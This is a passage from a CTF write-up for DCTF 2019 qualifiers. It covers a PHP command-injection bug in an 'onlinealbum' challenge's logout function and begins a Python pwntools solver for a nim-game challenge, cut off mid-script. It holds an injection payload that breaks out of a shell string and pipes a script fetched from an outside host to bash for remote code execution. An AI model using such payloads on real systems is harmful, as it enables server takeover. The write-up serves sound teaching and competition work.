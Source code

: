 ```php

        $file = file_get_contents($path);
        return $file;

    }

    public function auto_logout(Request $request)
    {
        Auth::logout();
        //delete file after logout
        $cmd = 'rm "'.storage_path().'/framework/sessions/'.escapeshellarg($request->logut_token).'"';
        shell_exec($cmd);
    }


}
```

There is a obvious Command Injection vulnerability in  the `auto_logout()` function.

We can insert `";curl kaibro.tw|bash;"` into `logout_token`, then get RCE.

![](https://github.com/w181496/CTF/raw/master/dctf2019-qual/onlinealbum/flag.png)

`DCTF{1196df3f624df7a099d4364e96df21a4c7283071177237bdd36e0981da68bd29}`

## Misc

### numbers

This challenge is a classic nim game. First, build a nim game state table. Then, we are done. Notice that the timeout limit is very strict. So I rent a GCP server in switzerland in order to solve it.

```python
#!/usr/bin/env python3
from pwn import *

r = remote('206.81.24.129', 2337)

r.sendlineafter("Hi! What's your name?\n", 'a')
r.sendlineafter('Ready? Y/N\n', 'Y')

def nim_tables(moves):
    table = [0]
    for i in range(1, 1000 + 1):
        values = []
        for move in moves:
            if i - move >= 0:
                values.append(table[i - move])
        if 0 in values:
            table.append(1)
        else:
            table.append(0)
    return table

def go():
    r.recvlines(2)
    moves = eval(r.recvline())
    moves = sorted(moves)
    table = nim_tables(moves)

    while True:
        text = r.recvline()
```